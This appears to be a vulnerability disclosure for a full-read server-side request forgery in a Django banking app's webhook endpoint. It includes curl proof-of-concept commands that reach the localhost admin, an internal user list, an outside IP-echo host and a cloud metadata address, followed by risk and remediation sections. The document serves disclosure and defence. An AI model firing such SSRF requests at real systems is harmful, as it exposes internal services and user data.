



# Description

Full-read Server-Side Request Forgery (CWE-918) on `POST /banking/webhook/`. The `set_webhook()` view in `Bank/views.py` takes a user-supplied `webhook_url` and fetches it server-side with `requests.get(url, timeout=5)`, returning the response status code **and body** to the caller. No scheme allow-list, no private/loopback/link-local rejection, no DNS re-check. Any authenticated user can make the Django container issue arbitrary outbound requests and read the responses — including internal services unreachable from the internet.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Log in (use `/banking/pin-skip/` if the PIN gate appears). | Valid session + CSRF token. |
| 2 | POST `webhook_url` pointing at an internal target. | Status + body of the internal response returned. |

# PoC

**1. Reach the localhost-only Django admin:**

```bash
curl -s "http://<TARGET>/banking/webhook/" -b "sessionid=<S>" -X POST \
  -H "X-CSRFToken: ${CSRF}" -H "Referer: http://<TARGET>/" \
  -d "csrfmiddlewaretoken=${CSRF}&webhook_url=http://127.0.0.1:8000/admin/"
# {"status":"tested","code":200,"body":"<!DOCTYPE html>...<title>Log in | Django site admin</title>..."}
```



**2. Confirm outbound SSRF (server's public IP):**

```bash
... webhook_url=http://ifconfig.me
# {"status":"tested","code":200,"body":"51.44.108.90"}
```



**3. Reach the internal API / user list:**



| Target | Result |
|--------|--------|
| `http://127.0.0.1:8000/admin/` | Django admin HTML (200) |
| `http://127.0.0.1:8000/api/users/` | Full user list (200) |
| `http://ifconfig.me` | Public IP `51.44.108.90` (200) |
| `http://169.254.169.254/latest/meta-data/` | Blocked by IMDSv2 (401) |

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Reads internal-only services, network topology, server IP; full response body exfiltrated. |
| Integrity | Pivot to internal admin / services; chainable with internal default creds. |
| Availability | Endpoint usable as an internal port scanner. |

Overall severity: **High** — combined with the path-traversal leak of `OLLAMA_BASE_URL`, the internal LLM service is also reachable.

# Remediation

1. **Allow-list trusted external domains**; reject all others.
2. **Block private/reserved ranges** (`127.0.0.0/8`, `10/8`, `172.16/12`, `192.168/16`, `169.254/16`, IPv6 equivalents) and non-HTTP(S) schemes.
3. **Resolve DNS then re-check the resolved IP** against the blocklist (anti-rebinding).
4. **Do not return the response body**; return only a status, and rate-limit the endpoint.

# Author
Hackrapovic
